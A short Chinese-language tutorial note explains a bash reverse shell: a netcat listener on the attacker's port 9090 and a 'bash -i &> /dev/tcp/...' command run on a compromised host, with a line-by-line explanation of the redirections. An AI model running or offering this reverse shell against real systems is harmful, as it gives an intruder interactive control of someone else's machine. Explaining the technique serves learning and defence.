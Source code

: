 #攻击端

	~]# nc -lvvp 9090		#监听本机IP 9090端口

#肉鸡
	
	~]# bash -i &> /dev/tcp/192.168.164.161/9090 0>&1

	bash -i ：启动一个子shell进程
	&>		：将标准输出和标准错误都重定向到我们指定的文件中
	/dev/tcp/192.168.164.161/9090	：特殊文件，会建议一个到192.168.164.161 9090的socket连接
	0>&1	：&>使得标准输出重定向到了我们的TCP连接上，然后0>&1使得标准输入又重定向到了标准输出中，最终的结果就是标准输入也被重定向到了TCP连接中，因此输入和输出都可以在公网主机上进行，通过TCP连接和bash进行交互